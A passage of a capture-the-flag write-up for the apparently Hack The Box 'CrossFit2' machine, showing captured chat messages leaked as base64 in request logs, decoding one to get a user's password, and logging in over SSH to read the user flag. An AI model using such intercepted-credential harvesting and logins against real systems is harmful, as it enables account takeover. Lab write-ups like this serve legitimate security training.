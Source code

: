 ```
[Thu Aug 12 07:52:27 2021] 10.129.68.20:19695 [404]: GET /privat?b64=eyJzZW5kZXJfaWQiOjE1LCJjb250ZW50IjoiRG8geW91IGtub3cgaG93IGdvb2dsZSBtYXBzIGNhbGN1bGF0ZXMgdHJhZmZpYz8iLCJyb29tSWQiOjE1LCJfaWQiOjI1MDd9 - No such file or directory
[Thu Aug 12 07:52:27 2021] 10.129.68.20:19695 Closing
[Thu Aug 12 07:52:27 2021] 10.129.68.20:17334 Accepted
[Thu Aug 12 07:52:27 2021] 10.129.68.20:17334 [404]: GET /global?b64=eyJzZW5kZXJfaWQiOjEyLCJjb250ZW50IjoiR29vZCBNb3JuaW5nISBIb3cgYXJlIHlvdSB0b2RheT8iLCJyb29tSWQiOiJnbG9iYWwiLCJfaWQiOjI1MDgsInVzZXJuYW1lIjoiQm9yaXMifQ== - No such file or directory
[Thu Aug 12 07:52:27 2021] 10.129.68.20:17334 Closing
```

Decoding them, one contains the password for the user david in a private message.

```
$ echo -n eyJzZW5kZXJfaWQiOjIsImNvbnRlbnQiOiJIZWxsbyBEYXZpZCwgSSd2ZSBhZGRlZCBhIHVzZXIgYWNjb3VudCBmb3IgeW91IHdpdGggdGhlIHBhc3N3b3JkIGBOV0JGY1NlM3dzNFZEaFRCYC4iLCJyb29tSWQiOjIsIl9pZCI6MjUwM30= | base64 -d
{"sender_id":2,"content":"Hello David, I've added a user account for you with the password `NWBFcSe3ws4VDhTB`.","roomId":2,"_id":2503}
```

We are now able to log in as david over ssh and grab the user flag.

```
$ ssh david@crossfit.htb
Warning: Permanently added the ECDSA host key for IP address '10.129.68.20' to the list of known hosts.
david@crossfit.htb's password: 
OpenBSD 6.8 (GENERIC.MP) #4: Mon Jan 11 10:35:56 MST 2021

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

Besides the device, the box should contain:

* Eight little rectangular snippets of paper that say "WARNING"

* A plastic packet containing four 5/17 inch pilfer grommets and two
  club-ended 6/93 inch boxcar prawns.

YOU WILL NEED TO SUPPLY: a matrix wrench and 60,000 feet of tram
cable.

IF ANYTHING IS DAMAGED OR MISSING: You IMMEDIATELY should turn to your
spouse and say: "Margaret, you know why this country can't make a car
that can get all the way through the drive-through at Burger King
without a major transmission overhaul?  Because nobody cares, that's
why."

WARNING: This is assuming your spouse's name is Margaret.
                -- Dave Barry, "Read This First!"
crossfit2:david {1} wc -c user.txt
      33 user.txt
```

